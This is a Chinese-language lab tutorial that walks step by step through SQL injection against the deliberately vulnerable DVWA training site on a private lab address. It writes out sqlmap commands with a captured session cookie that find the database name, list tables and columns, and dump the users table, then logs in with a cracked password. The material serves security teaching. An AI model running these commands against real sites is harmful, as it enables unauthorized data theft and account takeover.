










## 使用Sqlmap对目标站点进行渗透攻击

**步骤1:打开测试站点DVWA的主页面，并设置其安全级别为 low，如图所示。**



**步骤2:单击左边的SQL Injection，打开图所示的界面。**



**步骤3:在`User ID`文本框中随意输入一串数字，比如123，同时开启Burp Suite的数据包捕获功能，如图所示。**






**步骤4:在Kali Linux虚拟机的命令行状态下运行Sqlmap，并输入语句**

```shell
sqlmap -u "http://192.168.10.131/dvwa/vulnerabilities/sqli/?id=123&Submit=Submit" --cookie="security=low; PHPSESSID=066dh160jnt38r8frcj0t4pdr2" --current-db
```

**第一次操作，user-ID建议换一个再提交一遍**

`-u`后面的内容来自上图数据包中 **Referer**后面的内容，**cookie**来自图中 **Cookie**后的内容。执行该语句，得到网站数据库的名称，如图所示。






**步骤5:在上述命令的基础上，后面加上`--tables`来探测该数据库中的表，如图所示。探测数据库表的结果如图所示**

```shell
sqlmap -u "http://192.168.10.131/dvwa/vulnerabilities/sqli/?id=123&Submit=Submit" --cookie="security=low; PHPSESSID=066dh160jnt38r8frcj0t4pdr2" --current-db --tables
```



**步骤6:针对其中的一个表users，猜测其中的字段。执行语句，得到的结果如图所示。**

```shell
sqlmap -u "http://192.168.10.131/dvwa/vulnerabilities/sqli/?id=123&Submit=Submit" --cookie="security=low; PHPSESSID=066dh160jnt38r8frcj0t4pdr2" --columns -T users
```




**步骤7:执行命令，对users表中所有字段的值进行探测**

```shell
sqlmap -u "http://192.168.10.131/dvwa/vulnerabilities/sqli/?id=123&Submit=Submit" --cookie="security=low; PHPSESSID=066dh160jnt38r8frcj0t4pdr2" --dump -T users
```

在探测过程中用到其自带的字典,得到的结果如图所示。



**步骤8:利用上述结果，登录DVWA网站主页进行验证，比如用户名为1337,密码为charley如图5所示**

